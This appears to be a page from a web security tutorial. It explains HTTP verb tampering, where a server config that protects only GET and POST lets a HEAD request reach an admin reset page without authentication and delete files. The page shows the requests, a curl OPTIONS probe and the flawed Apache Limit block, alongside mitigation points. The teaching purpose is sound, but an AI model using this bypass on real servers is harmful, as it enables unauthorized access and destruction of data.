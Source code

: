 
**Key Point:**
- Restrict allowed HTTP methods in both server configuration and application logic.
- Apply security controls and input validation to all HTTP methods.

#### Example: Bypassing Basic Authentication
Let's look at a real-world example of exploiting insecure configuration HTTP Verb Tampering.

**Scenario:**
- File Manager web app with a restricted `/admin` directory
- Reset functionality at `/admin/reset.php` requires authentication
- Server misconfigured to only protect certain HTTP methods

**Step 1: Identify**
- Accessing `/admin/reset.php` triggers Basic Auth prompt
- Initial request uses GET method:
```http
GET /admin/reset.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: text/html
```

**Step 2: Test Different Methods**
1. Check allowed methods:
```bash
curl -i -X OPTIONS http://example.com/admin/reset.php
```
Response shows:
```http
HTTP/1.1 200 OK
Allow: POST,OPTIONS,HEAD,GET
```

2. Try HEAD method (bypasses auth):
```http
HEAD /admin/reset.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: text/html
```

**Result:**
- HEAD request executes reset function without authentication
- No response body (HEAD method characteristic)
- Files successfully deleted, confirming the bypass

**Why it Works:**
- Server config only protects GET/POST:
```xml
<Limit GET POST>
    Require valid-user
</Limit>
```
- HEAD method falls outside these limits
- Function executes despite empty response
